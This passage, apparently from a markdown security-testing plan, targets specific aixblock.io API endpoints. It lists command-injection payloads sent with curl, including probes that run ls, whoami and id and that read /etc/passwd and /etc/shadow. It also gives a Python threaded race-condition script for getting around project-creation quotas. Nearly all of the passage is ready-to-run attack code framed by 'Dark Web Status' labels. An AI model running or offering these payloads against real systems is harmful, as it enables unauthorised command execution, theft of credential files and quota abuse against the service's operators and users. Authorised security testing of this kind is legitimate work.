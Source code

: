 ### **🔴 PRIORITY 3: COMMAND INJECTION**
**Dark Web Status**: Critical for RCE attacks
**Testing Strategy**:

```bash
# Basic command injection
curl "https://workflow.aixblock.io/api/v1/execute?cmd=; ls -la"
curl "https://api.aixblock.io/api/v1/run?script=& whoami"
curl "https://workflow.aixblock.io/api/v1/process?input=` id `"

# Blind command injection
curl "https://workflow.aixblock.io/api/v1/execute?cmd=; sleep 5"
curl "https://api.aixblock.io/api/v1/run?script=& ping -c 5 127.0.0.1"
curl "https://workflow.aixblock.io/api/v1/process?input=` sleep 5 `"

# Advanced command injection
curl "https://workflow.aixblock.io/api/v1/execute?cmd=; cat /etc/passwd"
curl "https://api.aixblock.io/api/v1/run?script=| cat /etc/shadow"
curl "https://workflow.aixblock.io/api/v1/process?input=` cat /etc/hosts `"
```

### **🔴 PRIORITY 4: RACE CONDITIONS**
**Dark Web Status**: Heavily exploited for quota bypass
**Testing Strategy**:

```python
import requests
import threading
import time

def race_condition_test():
    threads = []
    for i in range(10):
        t = threading.Thread(target=create_project_request)
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()

def create_project_request():
    try:
        response = requests.post("https://api.aixblock.io/api/v1/projects", 
                               json={"name": f"test_project_{time.time()}"})
        print(f"Response: {response.status_code} - {response.text[:100]}")
    except Exception as e:
        print(f"Error: {e}")

# Test quota bypass
race_condition_test()
```
